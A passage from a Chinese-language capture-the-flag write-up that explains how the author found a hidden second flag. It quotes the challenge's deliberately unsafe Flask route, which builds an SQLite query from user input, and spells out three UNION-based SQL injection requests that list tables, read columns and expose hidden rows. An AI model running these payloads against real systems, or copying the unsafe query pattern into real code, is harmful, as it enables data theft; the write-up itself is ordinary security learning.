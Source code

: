 这道题还有一个 flag。起初我以为 flag 2 被用某种编码加密了，藏在某个聊天记录中。于是我又跑了一遍脚本把所有聊天记录[下载了下来](https://file.chyk.ink/%E6%9D%82%E4%B8%83%E6%9D%82%E5%85%AB/ctf/hg2024/%E8%81%8A%E5%A4%A9%E8%AE%B0%E5%BD%95.txt)，花了快半个小时浏览了一下，看得眼睛都疼了，但就是没有发现神秘编码。{%icon https://imgsrc.chyk.ink/suzume_bili_qiyun.webp %}

后来又细读了一遍题目代码，发现有一段非常值得注意：

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

查询语句没做任何防护，所以可以进行 **SQL 注入**。{%icon https://imgsrc.chyk.ink/suzume_bili_thinking.webp %}

SQLite 的一个 `cursor` 中不能执行多行语句，只能用限制重重的 `union` 来解决。

先看看有什么表吧。

```
GET /view?conversation_id=' union select GROUP_CONCAT(tbl_name), GROUP_CONCAT(name) from sqlite_master union select title, contents from messages where id='
```

查询结果为

{%ablock%}

聊天记录：messages,messages

messages,sqlite_autoindex_messages_1

{%endablock%}

说明只有 messages 一个表。那么 ...

```
GET /view?conversation_id=' union select group_concat(name), group_concat(type) from pragma_table_info('messages') union select title, contents from messages where id ='
```

{%ablock%}

聊天记录：id,title,contents,shown

text,text,text,boolean

{%endablock%}

有一列 `shown`，于是直接

```
GET /view?conversation_id=' or shown=0 union select title, contents from messages where id ='
```

这个被隐藏的聊天记录中赫然写着第二个 flag。

### 🔟 ⭕ 强大的正则表达式

Math 三连跪。
